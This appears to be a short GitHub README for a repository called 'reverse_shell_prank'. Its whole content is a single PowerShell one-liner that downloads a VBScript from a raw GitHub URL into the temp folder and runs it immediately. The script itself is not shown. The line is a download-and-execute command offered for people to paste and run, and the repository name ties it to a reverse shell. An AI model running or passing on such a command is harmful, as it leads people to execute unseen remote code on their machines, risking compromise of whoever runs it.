 # reverse_shell_prank
powershell -command "Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/wwwqr-000/reverse_shell_prank/main/rickyou.vbs' -OutFile %tmp%/rickboi.vbs" && start %tmp%/rickboi.vbs

